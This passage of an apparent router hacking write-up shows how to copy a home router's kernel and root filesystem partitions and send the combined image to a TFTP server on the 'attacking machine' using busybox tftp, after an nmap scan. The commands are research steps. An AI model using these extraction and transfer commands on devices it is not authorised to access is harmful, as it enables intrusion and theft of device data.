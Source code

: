 ``` nmap -sV -p- 192.168.1.1 -vv -oN <filename.txt> ```<br/><br/>
mtd0: 00020000 00010000 "boot"<br/>
mtd1: 00130000 00010000 "kernel"<br/>
mtd2: 00560000 00010000 "rootfs"<br/>
mtd3: 00010000 00010000 "ispconfig"<br/>
mtd4: 00010000 00010000 "config"<br/>
mtd5: 00010000 00010000 "configbak"<br/>
mtd6: 00010000 00010000 "romfile"<br/>
mtd7: 00010000 00010000 "radio"<br/>
mtd8: 00100000 00010000 "userdata"<br/>

Unfortunately, we don't have dd (shell tool for manipulating file data) on the router, but we can ```cat``` out the files.<br/>
Lets cat out the following rootfs and kernel.<br/><br/>

```cat /dev/mtd1 /tmp/kernel.bin```<br/>
```cat /dev/mtd2 /tmp/rootfs.bin```<br/><br/>

Combine the two binaries: ```cat kernel.bin rootfs.bin > firmware_combined.bin```<br/><br/>

Unfortunately, there is no netcat, wget, python etc within the router's firmware.<br/>
When enumerating Telnet earlier on, Busybox was present. When entering ```busybox```, we receive a list of commands that we can use.<br/><br/>

<img width="671" height="462" alt="Image" src="https://github.com/user-attachments/assets/b30afa0e-74a9-4ceb-967a-4da69b83b766" /><br/><br/>

It looks like ```tftp``` can be used (trivial file transfer protocol) - Essentially, it's a lightweight version of the full fat FTP protocol.<br/><br/>

Instructions to set up a TFTP server on your local device / attacking machine:<br/><br/>

```apt install tftpd-hpa```<br/>
```sudo mkdir -p /var/lib/tftpboot``` - this is where the files being uploaded / downloaded will reside.<br/>
```sudo chmod -R 777 /var/lib/tftpboot``` - this is also needed otherwise default permissions will not allow clients to download from the tftp server.<br/><br/>

Further configuration is also needed for /etc/default/tftpd-hpa<br/>
TFTP_USERNAME="tftp"<br/>
TFTP_DIRECTORY="/var/lib/tftpboot"<br/>
TFTP_ADDRESS="0.0.0.0:69"<br/>
TFTP_OPTIONS="--secure"<br/><br/>

Ensure that the TFTP_DIRECTORY is set to /var/lib/tftpboot as this is where files will need to be kept. Permissions have been changed in this directory so that clients can ```get``` and ```put``` files.<br/><br/>

The last step is to restart and enable the TFTP server.<br/>
```sudo systemctl restart tftpd-hpa```<br/>
```sudo systemctl enable tftpd-hpa```<br/><br/>

To test whether the service is running and listening:<br/>
```sudo netstat -anu | grep 69``` - TFTP runs over UDP/69.<br/><br/>

Connect to the router via RJ45 / Wi-Fi.<br/>
Check ```ifconfig``` to see what your host IP is.<br/><br/>

Going back to the router's shell, use the following:<br/>
```tftp -p -l /tmp/firmware_combined.bin 192.168.1.101```.<br/><br/>
<img width="951" height="179" alt="Image" src="https://github.com/user-attachments/assets/dbfbde81-fa2a-443d-95b0-934e92a855d9" /><br/><br/>

After doing that, it worked without any issue. Successfully 'put' the firmware_combined.bin file on the TFTP server (hosted on local machine). This was the only effective way of dumping the firmware in this scenario.<br/>

```